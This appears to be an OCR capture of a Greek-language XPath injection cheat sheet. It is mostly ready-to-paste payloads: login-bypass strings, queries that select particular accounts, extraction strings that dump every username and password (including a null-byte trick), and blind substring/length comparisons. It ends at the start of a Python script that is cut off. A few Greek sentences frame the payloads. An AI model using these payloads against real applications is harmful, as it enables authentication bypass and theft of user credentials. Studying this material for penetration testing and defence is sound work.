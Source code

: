 
ΣΗΜΑΝΤΙΚΟ: Παρατηρήστε ότι η **"και" είναι η πρώτη ενέργεια που εκτελείται**.
```
Bypass with first match
(This requests are also valid without spaces)
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
string(//user[name/text()='' or true() or '' and password/text()='']/account/text())

Select account
'or string-length(name(.))<10 or' #Select account with length(name)<10
'or contains(name,'adm') or' #Select first account having "adm" in the name
'or contains(.,'adm') or' #Select first account having "adm" in the current value
'or position()=2 or' #Select 2º account
string(//user[name/text()=''or position()=2 or'' and password/text()='']/account/text())

Select account (name known)
admin' or '
admin' or '1'='2
string(//user[name/text()='admin' or '1'='2' and password/text()='']/account/text())
```
## Εξαγωγή συμβολοσειρών

Η έξοδος περιέχει συμβολοσειρές και ο χρήστης μπορεί να χειριστεί τις τιμές για να αναζητήσει:
```
/user/username[contains(., '+VALUE+')]
```

```
') or 1=1 or (' #Get all names
') or 1=1] | //user/password[('')=(' #Get all names and passwords
') or 2=1] | //user/node()[('')=(' #Get all values
')] | //./node()[('')=(' #Get all values
')] | //node()[('')=(' #Get all values
') or 1=1] | //user/password[('')=(' #Get all names and passwords
')] | //password%00 #All names and passwords (abusing null injection)
')]/../*[3][text()!=(' #All the passwords
')] | //user/*[1] | a[(' #The ID of all users
')] | //user/*[2] | a[(' #The name of all users
')] | //user/*[3] | a[(' #The password of all users
')] | //user/*[4] | a[(' #The account of all users
```
## Blind Explotation

### **Πάρτε το μήκος μιας τιμής και εξαγάγετέ την μέσω συγκρίσεων:**
```bash
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''=' #True if length equals 4
' or substring((//user[position()=1]/child::node()[position()=1]),1,1)="a" or ''=' #True is first equals "a"

substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)

... and ( if ( $employee/role = 2 ) then error() else 0 )... #When error() is executed it rises an error and never returns a value
```
### **Παράδειγμα Python**
```python
import requests, string

flag = ""
```